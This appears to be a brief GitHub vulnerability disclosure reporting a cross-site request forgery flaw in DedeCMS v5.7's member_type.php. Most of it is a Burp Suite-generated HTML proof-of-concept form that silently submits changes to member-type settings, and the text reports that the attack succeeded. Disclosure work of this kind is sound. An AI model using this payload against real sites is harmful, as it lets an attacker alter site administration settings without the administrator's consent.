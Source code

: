 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/member_type.php
![1](https://github.com/Hckwzh/cms/assets/128144400/a6e1496b-7b43-4549-9a61-02d5a80c6ddc)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/member_type.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="ID&#95;1" value="1" />
      <input type="hidden" name="pname&#95;1" value="�&#184;&#173;绾&#167;�&#188;&#154;�&#145;&#152;�&#141;&#138;�&#185;&#180;" />
      <input type="hidden" name="rank&#95;1" value="50" />
      <input type="hidden" name="money&#95;1" value="100" />
      <input type="hidden" name="exptime&#95;1" value="7" />
      <input type="hidden" name="check&#95;1" value="1" />
      <input type="hidden" name="idend" value="1" />
      <input type="hidden" name="pname&#95;new" value="" />
      <input type="hidden" name="rank&#95;new" value="50" />
      <input type="hidden" name="money&#95;new" value="100" />
      <input type="hidden" name="exptime&#95;new" value="7" />
      <input type="hidden" name="check&#95;new" value="1" />
      <input type="hidden" name="imageField" value="�&#161;&#174;�&#174;&#154;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![2](https://github.com/Hckwzh/cms/assets/128144400/8c30fcb0-923f-47db-86e5-703396ab5a3f)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/a78dfc35-3f84-4a51-969c-89a25f633234)
